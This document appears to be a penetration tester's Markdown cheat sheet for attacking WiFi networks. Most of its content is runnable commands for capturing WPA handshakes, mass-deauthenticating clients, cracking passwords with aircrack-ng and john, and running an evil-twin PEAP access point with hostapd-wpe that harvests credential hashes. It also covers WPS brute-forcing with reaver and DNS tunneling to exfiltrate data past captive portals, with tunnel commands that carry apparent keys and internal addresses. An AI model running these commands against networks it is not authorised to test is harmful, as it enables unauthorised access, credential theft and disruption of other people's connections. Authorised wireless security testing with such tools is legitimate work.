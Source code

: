 # WIFI

## WPA

Capture Handshake using airodump-ng + local crack using john or hashcat =&gt; cleartext password

### 1. Monitor mode

```sh
sudo airmon-ng start wlan0
```

### 2. Listen for specific bssid

```sh
sudo airodump-ng -a mon0
```

> find you target bssid \(mac\) and chanel

```sh
airodump-ng -c 6 --bssid <MAC-BOX-CLIENT> --showack -w capture mon0
```

> don't forget the -w paramter to save the handshake !!

### 3. DeAUTH

```sh
aireplay-ng mon0 -0 5 -b <MAC-BOX-CLIENT>
```

DEAUTH specific client device

```sh
aireplay-ng -0 5 -a <MAC-BOX-CLIENT> -c <MAC-DEVICE-CLIENT> mon0
```

DEAUTH massif \(each client connected at each bssid of an essid\)

```sh
for bssid in cat bssid_deauth.lst; do for mac in cat client_deauth.lst; do aireplay-ng mon.wlan0 -0 5 -a $bssid -c $mac --ignore-negative-one -e <ESSID_CLIENT> ; done ; done
```

### 4. Handshake cracking

Handshaked captured ? go crack it !!

**Crack with aircrack**
```sh
aircrack-ng capture-01.cap --wordlist=<wordlist>
```

Crack with john

```bash
wpaclean capture.cap-01.clean.cap capture.cap-01.cap
aircrack-ng capture.cap-01.clean.cap -J capture.cap-01.hccap
hccap2john capture.cap-01.hccap > capture.cap-01.hccap.john
john --wordlist=<wordlist> capture.cap-01.hccap.john
```

Crack with hashcat

_**todo**_

## PEAP

1. `apt install hostapd-wpe`
2. Configure same channel and essid than the client's one in hostapd conf
3. Disconnect clients devices \(see WPA - 3. DeAUTH\)

Log PEAP : hash client format john

```sh
cat peap_client_log.txt | grep username -A2 | sed '/^--/d' | awk '{print $2}' | tr -d ':' | awk 'NR%3{printf $0":";next;}1' | awk -F ':' '{print $1"::::"$3":"$2}'
```

*Vulnerability fix : GPO validate certificate*

## Captive portal

### DNS tunneling

Try DNS tunneling to exfiltrate data over the internet

[http://requestbin.net/dns](http://requestbin.net/dns)

## Troubleshooting

### unblock wifi card

```bash
sudo nmcli nm wifi off
sudo nmcli radio wifi off
sudo rfkill unblock wlan
```

## Todo

### PEAP hash replay

* Spoof AP and replay hashed captured
  * [Sensepost berate_ap](https://github.com/sensepost/berate_ap)
  * [Sensepost sycophant](https://github.com/sensepost/wpa_sycophant)

### dns2tcp manually

création du tunel

```sh
dns2tcpc -z dnstun.lexsi.net -c -d 1 -l 9000 -r ssh 192.168.128.27 -k _bijour@lexsi_ dns2tcpc -z dnstun.lexsi.net -c -d 1 -l 9000 -r ssh 192.168.1.29 -k Q5xTEGHgqa8 ssh rsshdummy@127.0.0.1 -p 9000 -D 9010 -N -i rssh\_dummy\_dv\_new
```

mise en place du proxy local

```sh
ssh rssh@127.0.0.1 -p 9000 -D 9010 -N -i rssh.ssh
```

### WPS

```bash
airmon-ng check airmon-ng start wlan1 
wifite --showb --wpa --mon-iface wlan0mo 
airodump-ng -a wlan1mon --wps --essid-regex EDL time reaver -i wlan1mon -c 1 -b E8:FC:AF:9A:C9:B0 -K 1 
airodump-ng -a wlan1mon --essid-regex Internet 
wifite --showb --wpa --mon-iface wlan0mon --aircrack --pyrit --tshark --cowpatty --power 40
airmon-ng check airmon-ng start wlan0 
airodump-ng wlan0mon --wps --essid-regex VICTIM reaver -i wlan0mon -c $channel -b $bssid -K 1
```